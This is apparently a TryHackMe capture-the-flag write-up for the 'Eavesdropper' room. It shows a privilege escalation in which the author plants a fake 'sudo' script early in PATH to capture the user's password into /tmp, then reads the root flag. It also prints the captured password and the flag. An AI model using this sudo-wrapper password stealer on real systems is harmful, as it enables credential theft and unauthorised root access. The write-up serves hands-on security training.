




# TRYHACKME : EAVESDROPPER




Download keys

Hello again, hacker. After uncovering a user Frank’s

private key, you’ve broken into a target environment.

Download the SSH private key attached.

Note: If you are using the AttackBox, you can copy and paste the SSH private key using the “Clipboard” icon located on the slide-out tray, as demonstrated by the GIF below:

Download the attached file :

#### No answer needed

## FIND THE FLAG

### NMAP RESULT 




### CONNEXION SSH 


### DOWNLOAD PSPY64

)

COPIE VERS LA MACHINE 



### EXECUTION

```bash
chmod +x pspy64
./pspy64
```

```text
REMARQUE :
            CMD : UID=0 PID=10691 | sudo cat /etc/shadow
```

## PATH HIJACKING

```bash
export PATH="/tmp:$PATH"

cat << 'EOF' > sudo
#!/bin/bash
read -s password
echo $password > /tmp/passw.txt
echo $password | /usr/bin/sudo -S "$@"
```

#### chmod +x sudo

... Patienter 1 ~ 3 min
le password de frank sera dans /tmp/passw.txt

```bash
cat /tmp/passw.txt
!@#frankisawesome2022%*
sudo -l
User frank may run the following commands on workstation
( ALL : ALL ) ALL

sudo ls /root
sudo cat /root/flag.txt
```



```text
flag{14370304172628f784d8e8962d54a600}
```